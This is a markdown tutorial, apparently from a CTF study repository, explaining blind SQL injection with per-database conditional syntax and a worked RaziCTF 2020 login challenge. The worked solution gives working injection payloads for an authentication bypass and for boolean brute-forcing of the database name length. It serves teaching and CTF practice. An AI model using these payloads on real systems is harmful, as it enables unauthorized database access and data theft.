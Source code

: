# SQL Injection: Blind SQL Injection

## Introduction

Blind SQL Injection is a type of SQL injection attack where the attacker cannot see the result of the query directly. Instead, they infer information from the application's behavior, such as differences in response times or error messages. This method is useful when error messages are not displayed, but the application still processes the injected SQL commands. Sadly blind injection challenges are generally harder than normal SQLi question, but that doesn't mean you can't solve it :)

## Table of Contents

- [SQL Injection: Blind SQL Injection](#sql-injection-blind-sql-injection)
  - [Introduction](#introduction)
  - [Table of Contents](#table-of-contents)
  - [How to identify](#how-to-identify)
  - [Code/tools/websites](#codetoolswebsites)
    - [Tools](#tools)
    - [Websites](#websites)
  - [Sample problem](#sample-problem)
    - [Problem Statement](#problem-statement)
    - [Solution](#solution)
  - [References](#references)
  - [Conclusion](#conclusion)

## How to identify

To identify Blind SQL Injection vulnerabilities, pay attention to subtle differences in application responses. Indicators include:

1. **Behavior Testing:** Entering SQL syntax that does not produce visible errors but causes changes in application behavior, such as differences in response times or content.
2. **Boolean-based Testing:** Using boolean conditions (true/false) to determine the existence of a vulnerability.
3. **If Statements**: This is one of the key techniques for Blind SQL Injection. Also very useful to test simpler things blindly yet accurately. The syntax is slightly different based on the database used.
     *   MySQL If Statement

         > IF(condition,true-part,false-part)\
         > SELECT IF(1=1,'true','false')

     *   SQL Server If Statement

         > IF condition true-part ELSE false-part\
         > IF (1=1) SELECT 'true' ELSE SELECT 'false'
     *   Oracle If Statement

         > IF condition THEN true-part; ELSE false-part; END IF;\
         > IF (1=1) THEN dbms\_lock.sleep(3); ELSE dbms\_lock.sleep(0); END IF;
     *   PostgreSQL If Statement

         > SELECT CASE WHEN condition THEN true-part ELSE false-part END;\
         > SELECT CASE WHEN (1=1) THEN 'A' ELSE 'B' END;
     *   SQLite If Statement

         > if(condition, true-part, false-part)\
         > SELECT iif(1<2, "True", "False");
4. **Time-based Testing:** Using time delays (e.g., `SLEEP` function) to measure response times and infer database information. (More on this in [here](./time_based_blind_injections.md))

Example:
```plaintext
http://example.com/item.php?id=1 AND 1=1 -- (Normal response)
http://example.com/item.php?id=1 AND 1=2 -- (Different response)
```
 or maybe a form
 ```
 Product ID: A97HY  (Normal response)
 Product ID: true --  (Different response)
 ```

## Code/tools/websites

### Tools
- **SQLMap:** An automated tool for SQL injection and database takeover.
- **Burp Suite:** A web vulnerability scanner with tools for manual testing.
- **Havij:** An automated SQL injection tool.

### Websites

> https://ctflearn.com/challenge/430 [Quite hard]
> 
Hint: First use auth by-pass then start applying blind SQL.
## Sample problem

### Problem Statement
This is based on a real CTF question, from the RaziCTF 2020.
In this question you are given a login page and a `/login` endpoint we can post credentials to. When trying to log in it just says `You are not allowed to login` which seems quite odd. 
```
http://example.com/login 
```
Identify if the application is vulnerable to Blind SQL Injection.
After this you need to login and get the length of the database.
[assume that the data is sent as a get request in the following format http://example.com/login?data=username&secondaryData=password]

### Solution
1. Test for SQL injection vulnerability using boolean-based testing:
   ```sql
   http://example.com/login?data= OR 1=1 -- (Normal response)
   http://example.com/login?data= OR 1=2 -- (Different response)
   ```


2. Use what we learnt in authentication by-pass to login.
   ```SQL
   http://example.com/login?data=admin&secondaryData= OR true--
   ```

3. Use boolean-based payload to determine the length of the database name (`bruteforce using a script`):
   ```SQL
   http://example.com/login?data=admin&secondaryData= AND LENGTH(database())=1 -- (False)
   http://example.com/login?data=admin&secondaryData=  AND LENGTH(database())=2 -- (False)
   .
   .
   .
   http://example.com/login?data=admin&secondaryData= AND LENGTH(database())=23 -- (True)
   ```
The last part (3) is out of scope for the current topic but is added here becuase many times you need a combination of techniques to solve a question.
## References

- [OWASP SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)
- [PortSwigger Web Security Academy](https://portswigger.net/web-security/sql-injection/blind)
- [SQLMap Documentation](https://sqlmap.org/)

## Conclusion

Blind SQL Injection exploits differences in application behavior to infer database information without directly viewing the results. Identifying and exploiting these vulnerabilities requires careful observation and systematic testing.